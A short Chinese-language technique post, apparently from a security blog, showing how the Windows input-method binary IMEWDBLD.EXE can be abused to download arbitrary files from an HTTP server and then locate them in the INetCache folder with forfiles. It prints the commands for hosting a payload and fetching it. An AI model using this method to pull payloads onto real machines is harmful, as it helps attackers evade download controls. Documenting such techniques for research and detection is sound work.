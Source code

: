```yaml
---
title: 通过Windows自带程序IMEWDBLD.EXE下载任意文件
typora-root-url: ../
---
```


本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。

<div style="text-align: right"> 小维</div>

```
# 环境介绍
OS 名称: Microsoft Windows 10 专业版
OS 版本: 10.0.18363 暂缺 Build 18363
```

<!--more-->

```powershell
#通过HTTP服务托管载荷（这里使用了python3起个简易的HTTP服务）
python3 -m http.server

#通过IMEWDBLD.EXE下载任意文件
C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE http://10.200.73.104/download.txt

#查找文件存储路径
forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"
#参数介绍
/P 表示开始搜索的路径。默认文件夹是当前工作的 目录 (.)。
/S 指导 forfiles 递归到子目录。像 "DIR /S"。
/M 根据搜索掩码搜索文件。默认搜索掩码是 '*'。
/C 表示为每个文件执行的命令。命令字符串应该用双引号括起来。
	@path 返回文件的完整路径。
```

![image-20210420133444561](/img/%E9%80%9A%E8%BF%87Windows%E8%87%AA%E5%B8%A6%E7%A8%8B%E5%BA%8FIMEWDBLD.EXE%E4%B8%8B%E8%BD%BD%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6/image-20210420130233187.png)


